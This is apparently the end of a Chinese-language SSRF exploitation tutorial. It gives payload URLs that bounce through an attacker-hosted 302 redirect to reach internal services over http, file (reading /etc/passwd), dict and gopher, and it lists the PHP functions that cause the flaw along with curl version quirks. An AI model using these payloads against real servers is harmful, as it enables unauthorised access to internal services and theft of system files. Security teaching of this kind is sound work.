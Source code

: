 **利用：**

```python
#http/https
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=http&ip=127.0.0.1&port=80
#file
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=file&ip=127.0.0.1&query=/etc/passwd
#dict
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=dict&ip=127.0.0.1&port=29362&query=info
#gopher
http://目标网站HOST/ssrf.php?url=http://vps的IP/302.php?schema=gopher&ip=127.0.0.1&port=2333&query=66666
```

### 总结

```php
file_get_contents()
fsockopen()
curl_exec()
```

以上三个函数使用不当会造成SSRF漏洞



curl7.43上gopher协议存在%00截断的BUG，v7.49可用

file_get_contents()的SSRF，gopher协议不能使用URLencode

file_get_contents()的SSRF，gopher协议的302跳转有BUG会导致利用失败

### 更多参考

[SSRF在有无回显方面的利用及其思考与总结](https://xz.aliyun.com/t/6373) 

[【长亭科技】利用 Gopher 协议拓展攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/)